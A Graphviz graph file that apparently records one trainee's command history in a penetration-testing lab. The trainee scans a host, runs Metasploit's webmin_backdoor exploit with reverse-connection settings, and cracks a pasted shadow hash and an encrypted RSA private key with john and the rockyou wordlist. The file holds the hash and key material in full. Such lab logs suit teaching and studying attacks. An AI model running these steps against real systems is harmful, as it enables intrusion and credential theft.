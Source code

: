 // creating graph for user: 54
digraph {
	node [shape=box]
	0 [label="ping 172.18.1.5 U"]
	1 [label="nmap -p 60000-65536 A0 "]
	2 [label="nmap -p 60000-65535 A0 "]
	3 [label="nmap 172.18.1.5 -p 60000-65535 A0 "]
	4 [label="nmap 172.18.1.5 -p 40000-60000 A0 "]
	5 [label="nmap 172.18.1.5 -p 20000-40000 A0 "]
	6 [label="nmap 172.18.1.5 -p 1000-20000 A0 "]
	7 [label="exit U"]
	8 [label="help U"]
	9 [label="man msf U"]
	10 [label="man msfconsole U"]
	11 [label="msfconsole U"]
	12 [label="help U"]
	13 [label="nmap 172.18.1.5 -p 10000 A0 "]
	14 [label="man nmap U"]
	15 [label="nmap 172.18.1.5 -p 10000 -sV A0 "]
	16 [label="nikto -Help U"]
	17 [label="exit U"]
	18 [label="use exploit/linux/http/webmin_backdoor U"]
	19 [label="ls -a U"]
	20 [label="cd .msf4 U"]
	21 [label="ls U"]
	22 [label="cd modules U"]
	23 [label="ls U"]
	24 [label="ls -a U"]
	25 [label="cd ~ U"]
	26 [label="search webmin U"]
	27 [label="cd exploit U"]
	28 [label="search exploit/linux/http U"]
	29 [label="search exploit/linux/http/webmin U"]
	30 [label="info exploit/linux/http/webmin_packageup_rce U"]
	31 [label="searchsploit webmnin U"]
	32 [label="exit U"]
	33 [label="apt update U"]
	34 [label="apt install metasploit-framework U"]
	35 [label="ls /usr/share/metasploit-framework U"]
	36 [label="ls /usr/share/metasploit-framework/modules U"]
	37 [label="ls /usr/share/metasploit-framework/modules/exploits U"]
	38 [label="ls /usr/share/metasploit-framework/modules/exploits/linux U"]
	39 [label="ls /usr/share/metasploit-framework/modules/exploits/linux/http U"]
	40 [label="ls /usr/share/metasploit-framework/modules/exploits/linux U"]
	41 [label="msfconsole U"]
	42 [label="search webmin U"]
	43 [label="search webmin_back U"]
	44 [label="search webmin_backdoor U"]
	45 [label="use exploit/linux/http/webmin_backdoor.rb U"]
	46 [label="show targets U"]
	47 [label="show options U"]
	48 [label="help U"]
	49 [label="show options U"]
	50 [label="set LHOST 172.18.1.5 U"]
	51 [label="show options U"]
	52 [label="set LHOST U"]
	53 [label="exit U"]
	54 [label="msfconsole U"]
	55 [label="use exploit/linux/http/webmin_backdoor.rb U"]
	56 [label="show options U"]
	57 [label="set RHOSTS 172.18.1.5 U"]
	58 [label="show options U"]
	59 [label="exploit U"]
	60 [label="ifconfig U"]
	61 [label="set LHOST 0.0.0.0 U"]
	62 [label="exploit U"]
	63 [label="run U"]
	64 [label="show options U"]
	65 [label="show missing U"]
	66 [label="show targets U"]
	67 [label="check 172.18.1.5 U"]
	68 [label="show targets U"]
	69 [label="show options U"]
	70 [label="set target 0 U"]
	71 [label="show options U"]
	72 [label="run U"]
	73 [label="check 172.18.1.5 U"]
	74 [label="back U"]
	75 [label="use exploit/linux/http/webmin_backdoor.rb U"]
	76 [label="check 172.18.1.5 U"]
	77 [label="show options U"]
	78 [label="show targets U"]
	79 [label="set target 1 U"]
	80 [label="check 172.18.1.5 U"]
	81 [label="exit U"]
	82 [label="msfconsole U"]
	83 [label="use exploit/linux/http/webmin_backdoor U"]
	84 [label="show targets U"]
	85 [label="show options U"]
	86 [label="check 172.18.1.5 U"]
	87 [label="ifconfig U"]
	88 [label="set LHOST 10.1.135.83 U"]
	89 [label="check 172.18.1.5 U"]
	90 [label="run U"]
	91 [label="set RHOSTS 172.18.1.5 U"]
	92 [label="run U"]
	93 [label="nmap -sn 172.18.1.5/24 A0 "]
	94 [label="arp -a U"]
	95 [label="nmap 172.18.1.1 A0 "]
	96 [label="arp -a U"]
	97 [label="nmap 147.251.6.10 A0 "]
	98 [label="show options U"]
	99 [label="ifconfig U"]
	100 [label="msfconsole U"]
	101 [label="use exploit/linux/http/webmin/backdoor U"]
	102 [label="use exploit/linux/http/webmin/backdoor.rb U"]
	103 [label="use exploit/linux/http/webmin/backdoor.br U"]
	104 [label="use exploit/linux/http/webmin_backdoor U"]
	105 [label="show options U"]
	106 [label="set RHOSTS 172.18.1.5 U"]
	107 [label="ifconfig U"]
	108 [label="set LHOST 10.1.135.83 U"]
	109 [label="run U"]
	110 [label="check 172.18.1.5 U"]
	111 [label="nmap 10.1.17.4 A0 "]
	112 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	113 [label="cat shadow U"]
	114 [label="echo eve:x:1003:1003::/home/eve:/bin/bash > passwd U"]
	115 [label="ls U"]
	116 [label="unshadow passwd shadow > mypasswd.txt U"]
	117 [label="ls U"]
	118 [label="cat mypasswd.txt U"]
	119 [label="john mypasswd.txt U"]
	120 [label="john shadow U"]
	121 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	122 [label="cat shadow U"]
	123 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	124 [label="cat shadow U"]
	125 [label="nano shadow U"]
	126 [label="cat shadow U"]
	127 [label="unshadow passwd shadow > mypasswd.txt U"]
	128 [label="john mypasswd.txt U"]
	129 [label="run U"]
	130 [label="echo -----BEGIN RSA PRIVATE KEY----- U"]
	131 [label="Proc-Type: 4 U"]
	132 [label="DEK-Info: AES-128-CBC U"]
	133 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	134 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	135 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	136 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB U"]
	137 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	138 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	139 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	140 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	141 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	142 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	143 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	144 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	145 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	146 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	147 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	148 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	149 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	150 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	151 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	152 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	153 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	154 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	155 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	156 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	157 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	158 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	159 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	160 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	161 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	162 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	163 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	164 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	165 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	166 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	167 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	168 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	169 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	170 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	171 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	172 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	173 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	174 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	175 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	176 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	177 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	178 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	179 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	180 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	181 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	182 [label="nano id_rsa U"]
	183 [label="file id_rsa U"]
	184 [label="john id_rsa U"]
	185 [label="john --format=SSH id_rsa U"]
	186 [label="ssh2john id_rsa > id_rsa.hash U"]
	187 [label="cat id_rsa U"]
	188 [label="/usr/sbin/ss2john U"]
	189 [label="/usr/sbin/ssh2john U"]
	190 [label="locate ssh2john U"]
	191 [label="/usr/share/john/ssh2john.py id_rsa > id_rsa.hash U"]
	192 [label="cat id_rsa.hash U"]
	193 [label="john id_rsa.hash U"]
	194 [label="ls /usr/share U"]
	195 [label="ls /usr/share/wordlists U"]
	196 [label="john id_rsa.hash --wordlist=/usr/share/wordlists U"]
	197 [label="john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	rankdir=LR
}

